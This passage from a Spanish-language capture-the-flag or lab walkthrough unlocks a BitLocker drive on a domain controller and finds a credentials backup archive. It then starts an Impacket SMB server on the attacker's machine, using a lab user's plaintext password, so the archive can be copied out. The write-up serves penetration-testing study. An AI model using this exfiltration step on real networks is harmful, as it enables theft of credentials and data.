 Ingresaremos la clave de recuperación de BitLocker que obtuvimos anteriormente para desbloquear la unidad cifrada.

<figure><img src="../../.gitbook/assets/imagen (37).png" alt=""><figcaption></figcaption></figure>

Conseguimos tener acceso a la unidad `E:`, entre los directorios de la unidad, verificamos que en el directorio `E:\Windows Server 2012 R2 - Backups\Users\Administrator\Documents` disponía de un archivo de backup llamado `Backup_Credentials.7z`.

<figure><img src="../../.gitbook/assets/imagen (38).png" alt=""><figcaption></figcaption></figure>

Deberemos de compartir este archivo a nuestro equipo local. Para ello, montaremos un servidor SMB que utilice las credenciales del usuario `O.martinez`.

```bash
❯ smbserver.py smbFolder $(pwd) -username 'O.martinez' -password 'M@rtinez_P@ssw0rd!' -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Conectaremos esta unidad en el DC y copiaremos el archivo de Backup en nuestro recurso compartido.
